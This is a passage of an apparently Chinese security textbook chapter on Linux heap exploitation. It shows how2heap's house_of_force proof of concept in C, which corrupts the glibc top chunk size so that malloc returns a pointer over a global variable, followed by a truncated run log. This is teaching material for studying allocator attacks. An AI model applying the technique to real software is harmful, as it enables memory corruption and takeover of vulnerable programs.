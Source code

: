 # 3.3.7 Linux 堆利用（下）

- [how2heap](#how2heap)
  - [house_of_force](#house_of_force)
  - [unsorted_bin_attack](#unsorted_bin_attack)
  - [house_of_einherjar](#house_of_einherjar)
  - [house_of_orange](#house_of_orange)
- [参考资料](#参考资料)


[下载文件](../src/Others/3.3.5_heap_exploit)

## how2heap
#### house_of_force
```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main() {
    fprintf(stderr, "We will overwrite a variable at %p\n\n", bss_var);

    intptr_t *p1 = malloc(0x10);
    int real_size = malloc_usable_size(p1);
    memset(p1, 'A', real_size);
    fprintf(stderr, "Let's allocate the first chunk of 0x10 bytes: %p.\n", p1);
    fprintf(stderr, "Real size of our allocated chunk is 0x%x.\n\n", real_size);

    intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
    fprintf(stderr, "Overwriting the top chunk size with a big value so the malloc will never call mmap.\n");
    fprintf(stderr, "Old size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));
    ptr_top[0] = -1;
    fprintf(stderr, "New size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));

    unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
    fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size, we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
    void *new_ptr = malloc(evil_size);
    int real_size_new = malloc_usable_size(new_ptr);
    memset((char *)new_ptr + real_size_new - 0x20, 'A', 0x20);
    fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

    void* ctr_chunk = malloc(0x30);
    fprintf(stderr, "malloc(0x30) => %p!\n", ctr_chunk);
    fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.\n");

    fprintf(stderr, "old string: %s\n", bss_var);
    strcpy(ctr_chunk, "YEAH!!!");
    fprintf(stderr, "new string: %s\n", bss_var);
}
```
```
$ gcc -g house_of_force.c
$ ./a.out 
We will overwrite a variable at 0x601080
```